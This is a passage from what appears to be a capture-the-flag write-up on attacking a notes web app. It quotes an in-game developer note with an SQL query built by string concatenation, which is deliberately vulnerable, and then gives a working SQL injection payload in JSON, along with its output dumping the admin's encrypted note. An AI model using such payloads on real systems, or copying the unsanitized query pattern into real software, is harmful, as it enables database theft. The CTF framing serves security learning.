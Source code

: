 ```
Some suggested using some fancy extra data, rather than using the user’s username. After some discussion the team decided to keep it as is. Simple, straightforward, and gets the job done. We were also discussing the idea of adding column to the database which would store IV separately from note content (now we just convert both to hex and concatenate with a dot in between). Luckily boss decided that it would be additional work to me while I work on /restore endpoint, so we postponed it for later.

716 | Ideas for restore endpoint | scotty | 0 |
Here are some ideas I generated with ChatGPT for implementing restore endpoint:
```
```python
def restore():
username = current_user.id
notes =  # get json file from POST request

# put new notes into database (or replace old ones)
for element in notes:
    title, encrypted, note = element
    sql.execute(f"INSERT OR REPLACE INTO notes (username, note, id, encrypted, title) VALUES ('{username}', '{note}', {i}, {encrypted}, '{title}');")
```
```
Doesn’t look too bad.

I was searching StackOverflow as well but everyone was talking about some „sanitization” stuff (must google it later). Why to complicate things while it seems so simple? Stupid...
```

#### Conclusions
- We managed to dump the entire database, which means that we now have access to all the data that is stored in it.
- Both `scotty` and `admin` have fascinating notes. `admin`'s note is encrypted, while `scotty`'s notes aren't.
- We find out how the encryption logic works, which will be very helpful in actually decrypting the message after we gather all the necessary data.
- Other than that, we also discover the exact query used to insert new notes into the database which lets us know how to properly format our next SQL injection payload.

### `admin_notes.json`
```json
{
  "2011": {
    "encrypted": 0,
    "note": "' || CAST((SELECT GROUP_CONCAT(name, ' | ') FROM PRAGMA_table_info('notes')) AS TEXT) || CAST((SELECT '\n') AS TEXT) || CAST((SELECT GROUP_CONCAT(rows, '\n') FROM (SELECT id || ' | ' || title || ' | ' || username || ' | ' || encrypted || ' | ' || note AS rows FROM notes WHERE username = 'admin')) AS TEXT) || '",
    "title": "notes of admin"
  }
}
```
#### Output
```
id | title | username | encrypted | note
714 | Hoist the colours! | admin | 1 | 950902d52cf09d9c25bc476361119bfd.f0a6f3dfa5163aff51b4bd3123bb20db907a4532b58a9adf331948c787b14883ce87777b9b367a78b95a34ab9c771171696aca7087ed8da47f3496b6d7b55bea
```
#### Conclusions
- This payload let us access the `admin`'s note, which is encrypted.
- It'll also be very helpful in the later stages of the challenge.
